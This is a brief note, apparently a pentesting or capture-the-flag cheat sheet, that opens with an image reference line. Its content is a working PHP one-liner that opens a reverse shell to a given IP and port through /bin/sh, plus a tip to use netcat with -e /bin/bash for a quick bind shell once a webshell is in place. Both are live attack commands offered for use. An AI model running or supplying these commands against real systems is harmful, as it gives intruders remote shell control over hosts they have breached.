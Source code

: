 
 php -r '$sock=fsockopen("10.10.221.228",2121);exec("/bin/sh -i <&3 >&3 2>&3");' : php reverse shell
 
 
 if you have webshell access to the target, you can try a nc -lvnp 1234 -e /bin/bash first to get a quick bind shell rather than going through trouble of getting reverse shell.
